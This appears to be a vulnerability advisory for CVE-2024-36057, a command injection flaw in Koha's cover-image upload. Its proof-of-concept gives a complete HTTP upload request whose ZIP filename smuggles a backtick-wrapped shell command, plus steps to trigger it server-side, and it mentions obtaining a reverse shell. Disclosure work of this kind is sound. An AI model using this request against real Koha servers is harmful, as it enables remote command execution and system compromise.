

## Koha Library Software < 22.05.22 — OS Command Injection

> **CVE ID:** CVE-2024-36057  
> **Product:** Koha Library Software  
> **Vulnerability Type:** OS Command Injection (CWE-78)  
> **CVSS Score:** 8.7 (High) Authenticated  
> **Affected Versions:** Below 22.05.22  
> **Credits:** Karolis Narvilas

---

### Description

Koha is an open-source integrated library system. A command injection vulnerability exists in the cover image upload functionality at `tools/upload-cover-image.pl`. The application uses `qx/unzip $filename -d $dirname/` to extract uploaded ZIP archives without sanitizing the filename parameter. 

An authenticated high-privilege user can craft a ZIP file with a malicious filename containing backtick characters to inject arbitrary shell commands, which are executed server-side when the user clicks "Process Images".

**Impact:** A remote authenticated attacker can exploit CVE-2024-36057 to execute arbitrary OS commands on the underlying server, leading to full system compromise, data exfiltration, and the establishment of persistent backdoors or reverse shells.

---

### Proof-of-Concept (PoC)

1. Log in to Koha as a high-privilege user.
2. Navigate to: `https://{domain}/cgi-bin/koha/tools/upload-cover-image.pl`
3. Upload a normal ZIP file and, using an intercepting proxy such as Burp Suite, edit the filename as shown below:

<br>

**Request:**
```http
POST /cgi-bin/koha/tools/upload-file.pl?temp=1 HTTP/1.1
Host: {domain}
Cookie: [High-Privilege Session]
Connection: close

------WebKitFormBoundaryP82Da5V6eaQOuBUT
Content-Disposition: form-data; name="file"; filename="execute`<INJECTED_COMMAND>`.zip"
Content-Type: application/x-zip-compressed

<zip file contents>
------WebKitFormBoundaryP82Da5V6eaQOuBUT--
```

<br>

4. After the ZIP file is successfully uploaded, click **"Process Images"**.
5. The injected command within the backticks is executed server-side. In this example, a reverse shell is established on the target machine.



---

### References

- [Koha Community - Release Notes for v22.05.22](https://koha-community.org/koha-22-05-22-released/)
- [MITRE - CVE-2024-36057](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-36057)
- [Hacklantic](https://hacklantic.com)